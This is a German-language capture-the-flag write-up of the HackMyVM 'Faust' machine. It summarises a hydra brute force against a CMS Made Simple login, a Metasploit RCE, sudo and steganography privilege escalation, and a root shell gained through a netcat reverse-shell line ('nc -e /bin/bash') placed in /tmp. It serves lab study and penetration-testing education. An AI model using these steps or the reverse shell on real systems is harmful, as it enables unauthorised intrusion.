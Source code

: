 # Faust - HackMyVM (Easy)

![Faust.png](Faust.png)

## Übersicht

*   **VM:** Faust
*   **Plattform:** [HackMyVM](https://hackmyvm.eu/machines/machine.php?vm=Faust)
*   **Schwierigkeit:** Easy
*   **Autor der VM:** DarkSpirit
*   **Datum des Writeups:** 16. April 2023
*   **Original-Writeup:** https://alientec1908.github.io/Faust_HackMyVM_Easy/
*   **Autor:** Ben C.

## Kurzbeschreibung

Das Ziel dieser Challenge war die Kompromittierung der virtuellen Maschine "Faust". Die Enumeration deckte einen Apache-Webserver (Port 80), einen SSH-Dienst (Port 22) und einen unbekannten Dienst auf Port 6660 auf. Der Dienst auf Port 6660 lieferte einen Hinweis auf den Benutzer `paul`. Eine Web-Enumeration auf Port 80 fand eine `/admin`-Seite. Ein Brute-Force-Angriff mit Hydra auf `/admin/login.php` war erfolgreich und lieferte die Credentials `admin`:`bullshit`. Diese wurden verwendet, um mit einem Metasploit-Exploit für CMS Made Simple (CMSMS) eine RCE zu erlangen und initialen Zugriff als `www-data` zu erhalten.
Die Rechteausweitung umfasste mehrere Schritte:
1.  **www-data -> paul:** Ein Klartext-Passwort für `paul` (`YouCanBecomePaul`) wurde in `/home/paul/password.txt` gefunden.
2.  **paul -> nico:** `paul` durfte `sudo -u nico /usr/bin/base32 /home/nico/.secret.txt` ausführen. Die Base32-kodierte Ausgabe wurde fälschlicherweise als Base64 dekodiert, was das Passwort für `nico` (`just_one_more_beer`) offenbarte.
3.  **nico -> root:** In `/nico/homer.jpg` wurde mittels Steganografie (`stegseek`) eine Nachricht gefunden, die auf `/tmp/goodgame` hinwies. Eine ausführbare Datei `/tmp/goodgame` mit einer Reverse-Shell-Payload wurde erstellt. Diese wurde vermutlich von einem Cronjob als `root` ausgeführt, was zu einer Root-Shell führte.

## Disclaimer / Wichtiger Hinweis

Die in diesem Writeup beschriebenen Techniken und Werkzeuge dienen ausschließlich zu Bildungszwecken im Rahmen von legalen Capture-The-Flag (CTF)-Wettbewerben und Penetrationstests auf Systemen, für die eine ausdrückliche Genehmigung vorliegt. Die Anwendung dieser Methoden auf Systeme ohne Erlaubnis ist illegal. Der Autor übernimmt keine Verantwortung für missbräuchliche Verwendung der hier geteilten Informationen. Handeln Sie stets ethisch und verantwortungsbewusst.

## Verwendete Tools

*   `arp-scan`
*   `gobuster`
*   `nmap`
*   `hydra`
*   `msfconsole` (cmsms_upload_rename_rce)
*   `python3` (pty, http.server)
*   `rm`
*   `cat`
*   `ssh`
*   `sudo`
*   `base32`, `base64`
*   `echo`
*   `su`
*   `wget`
*   `stegsnow`, `stegseek`
*   `chmod`
*   `nc (netcat)`
*   Standard Linux-Befehle (`ls`, `cd`, etc.)

## Lösungsweg (Zusammenfassung)

Der Angriff auf die Maschine "Faust" gliederte sich in folgende Phasen:

1.  **Reconnaissance:**
    *   IP-Findung mittels `arp-scan` (192.168.2.132).
    *   Portscan mit `nmap` identifizierte Port 22 (SSH OpenSSH 7.9p1), Port 80 (Apache 2.4.38 - CMS Made Simple) und Port 6660 (unbekannter Dienst, der eine Nachricht von "Paul" an "www-data" enthielt).

2.  **Web Enumeration & Initial Access (CMSMS RCE als `www-data`):**
    *   `gobuster` auf Port 80 fand u.a. das Verzeichnis `/admin`.
    *   Ein HTTP-POST-Form-Brute-Force-Angriff mit `hydra` auf `/admin/login.php` für den Benutzer `admin` war erfolgreich und lieferte das Passwort `bullshit`.
    *   Mit `msfconsole` und dem Exploit `exploit/multi/http/cmsms_upload_rename_rce` wurde unter Verwendung der Credentials `admin`:`bullshit` eine Remote Code Execution auf der CMSMS-Instanz erreicht. Dies führte zu einer Meterpreter-Session und anschließend einer Shell als `www-data`.

3.  **Privilege Escalation (von `www-data` zu `paul`):**
    *   Enumeration als `www-data` führte zur Datei `/home/paul/password.txt`, die das Klartext-Passwort `YouCanBecomePaul` enthielt.
    *   Erfolgreicher SSH-Login als `paul` mit diesem Passwort.

4.  **Privilege Escalation (von `paul` zu `nico` via `sudo`/Base64):**
    *   `sudo -l` für `paul` zeigte, dass er `sudo -u nico /usr/bin/base32 /home/nico/.secret.txt` ausführen durfte.
    *   Die Base32-kodierte Ausgabe dieses Befehls wurde mit `base64 -d` (fälschlicherweise, aber erfolgreich) dekodiert und enthüllte das Passwort für `nico`: `just_one_more_beer`.
    *   Mit `su nico` und diesem Passwort wurde zu `nico` gewechselt.

5.  **Privilege Escalation (von `nico` zu `root` via Steganografie & Cronjob/Tmp):**
    *   Im Verzeichnis `/nico` wurde die Datei `homer.jpg` gefunden.
    *   `stegseek` wurde verwendet, um aus `homer.jpg` eine versteckte Datei (`note.txt`) zu extrahieren. Diese enthielt den Hinweis "my /tmp/goodgame file was so good... but I lost it".
    *   Eine ausführbare Datei `/tmp/goodgame` wurde mit einem Netcat-Reverse-Shell-Payload erstellt (`nc -e /bin/bash <ANGREIFER-IP> <PORT>`).
    *   Es wurde angenommen, dass ein Cronjob oder ein ähnlicher Mechanismus diese Datei als `root` ausführt. Nach kurzer Zeit wurde eine Root-Shell auf dem Listener des Angreifers empfangen. Die User- und Root-Flags wurden gelesen.

## Wichtige Schwachstellen und Konzepte

*   **Informationspreisgabe über Netzwerkdienst:** Ein unbekannter Dienst auf Port 6660 lieferte den Benutzernamen `paul`.
*   **Schwache Web-Admin-Passwörter:** Das Admin-Passwort für CMS Made Simple konnte per Brute-Force erraten werden.
*   **Bekannte CVE Ausnutzung (CMSMS RCE):** Eine bekannte RCE-Schwachstelle in CMS Made Simple wurde für den initialen Zugriff genutzt.
*   **Klartext-Passwörter in Dateien:** Passwörter für Benutzer `paul` und (indirekt durch `sudo`-Fehlkonfiguration) `nico` wurden im Klartext bzw. leicht dekodierbar gefunden.
*   **Unsichere `sudo`-Konfigurationen:**
    *   `paul` durfte `base32` auf eine Datei von `nico` ausführen, was (durch fehlerhafte Dekodierung) zur Preisgabe von `nico`s Passwort führte.
*   **Steganografie:** Eine versteckte Nachricht in einer Bilddatei lieferte den entscheidenden Hinweis für die finale Rechteausweitung.
*   **Ausführung von Dateien aus `/tmp` durch privilegierten Prozess:** Ein (vermutlich) Cronjob führte eine Datei aus einem global beschreibbaren Verzeichnis (`/tmp`) als `root` aus, was zur Kompromittierung führte.

## Flags

*   **User Flag (`/home/nico/user.txt` - oder äquivalent, da Bericht ungenau):** `gamhanarhu`
*   **Root Flag (`/root/root.txt`):** `lasarnsilgam`

## Tags

`HackMyVM`, `Faust`, `Easy`, `Nmap`, `Gobuster`, `Hydra`, `Metasploit`, `CMSMS`, `RCE`, `PasswordInFile`, `SudoAbuse`, `Base64`, `Steganography`, `Stegseek`, `TmpExploitation`, `Cronjob`, `Linux`, `Web`, `Privilege Escalation`
